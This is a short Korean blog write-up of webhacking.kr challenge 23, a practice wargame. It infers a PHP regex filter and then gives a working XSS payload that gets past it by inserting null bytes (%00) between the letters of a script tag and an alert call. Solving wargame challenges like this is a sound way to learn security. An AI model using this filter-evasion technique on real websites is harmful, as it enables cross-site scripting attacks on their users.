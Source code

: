 ```yaml
---
title: "[webhacking.kr] 23번 문제 풀이[php]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - php
toc: true
toc_sticky: true
toc_label: "23번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 23번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
## 문제 화면
  ![image](https://user-images.githubusercontent.com/33647663/150950543-c6e912ce-e97b-40e6-bf4f-19cb15ac52c5.png)

## 문제 풀이
  입력 칸에 여러 단어를 입력해 보면서 무엇이 필터링 되는지 먼저 확인합니다.

  몇개의 단어를 입력해보니 php 서버에는 다음과 같이 처리 되는 것 같습니다.

  ```php
  if (preg_match('/[A-Za-z]{2,}/', $_GET['code'])) {
      echo "no hack <br>";
  } else {
      echo "{$_GET['code']}<br>";
  }
  ```

  숫자를 제외하고 문자를 2개 연속 입력하면 no hack을 출력하는 로직입니다. 그리고 몇개를 테스트 해보니 preg_match 부분은 문자열 중간에 null byte(0x00)를 끼워 넣으면 다르게 판단 합니다.

  ex)
  admin != ad%00min

  이를 이용해서 입력할 ```<script> alert(1); </script>``` 중간중간에 preg_match 에 의해서 필터링 되지 않도록 null byte를 넣어줍니다.

  ```<s%00c%00r%00i%00p%00t>a%00l%00e%00r%00t(1);</s%00c%00r%00i%00p%00t>```


  ![image](https://user-images.githubusercontent.com/33647663/150971471-87e799de-7864-4988-b4d1-8dfb32b1de88.png)
  


